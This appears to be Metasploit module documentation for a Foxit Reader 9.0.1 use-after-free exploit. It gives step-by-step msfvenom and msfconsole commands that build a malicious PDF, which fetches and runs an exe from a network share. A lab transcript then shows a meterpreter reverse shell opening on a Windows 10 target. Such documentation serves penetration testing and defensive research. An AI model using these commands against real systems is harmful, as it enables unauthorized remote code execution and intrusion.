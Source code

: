 ## Description

Foxit Reader v9.0.1.1049 and earlier are affected by use-after-free and uninitialzed memory vulnerabilities that can be used to gain code execution. This module uses Uint32Array uninitialized memory and text annotation use-after-free vulnerabilities to call WinExec with a share file path to download and execute the specified exe. The module has been tested against Foxit Reader v9.0.1.1049 running on Windows 7 x64 and Windows 10 Pro x64 Build 17134. Windows 10 Enterprise needs to have [insecure logons enabled](https://support.microsoft.com/en-ca/help/4046019) for the exploit to work as expected.

## Vulnerable Application

[Foxit Reader v9.0.1.1049](https://www.exploit-db.com/apps/1040d634123948886f664afc95ec0a5e-FoxitReader901_enu_Setup_Prom.exe) and earlier

## Verification Steps

1. `./msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> --arch x86 -f exe /share/path/tmp.exe`
2. `chmod 777 /share/path/tmp.exe`
3. `./msfconsole -qx 'use exploit/windows/fileformat/foxit_reader_uaf ; set exename tmp.exe ; set share <share> ; set lhost <lhost> ; run`
4. `use multi/handler`
5. `set payload windows/meterpreter/reverse_tcp`
6. `set lhost <lhost>`
9. `run -j`
10. Copy pdf over to target. Start Foxit Reader then open pdf from Foxit's Menu.

Note: The target machine running Foxit Reader will need network access to the system hosting the exe.

## Scenarios

### Foxit Reader v9.0.1.1049 running on Windows 10 Pro x64 Build 17134

```
msfdev@simulator:~/git/metasploit-framework
$ ./msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.222.197 LPORT=4444 --arch x86 -f exe -o /opt/malicious/tmp.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: /opt/malicious/tmp.exe
msfdev@simulator:~/git/metasploit-framework
$ chmod 777 /opt/malicious/tmp.exe 
msfdev@simulator:~/git/metasploit-framework
$ ./msfconsole -qx 'use exploit/windows/fileformat/foxit_reader_uaf ; set exename tmp.exe ; set share tmp ; set lhost 172.22.222.197 ; run '
exename => tmp.exe
share => tmp
lhost => 172.22.222.197
[*] share_path: \\172.22.222.197\tmp\tmp.exe
[+] test.pdf stored at /home/msfdev/.msf4/local/test.pdf
msf5 exploit(windows/fileformat/foxit_reader_uaf) > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 172.22.222.197
lhost => 172.22.222.197
msf5 exploit(multi/handler) > set exitonsession false
exitonsession => false
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 172.22.222.197:4444 
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 1 opened (172.22.222.197:4444 -> 172.22.222.200:49673) at 2018-08-21 07:50:34 -0500

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: DESKTOP\msfdev
```
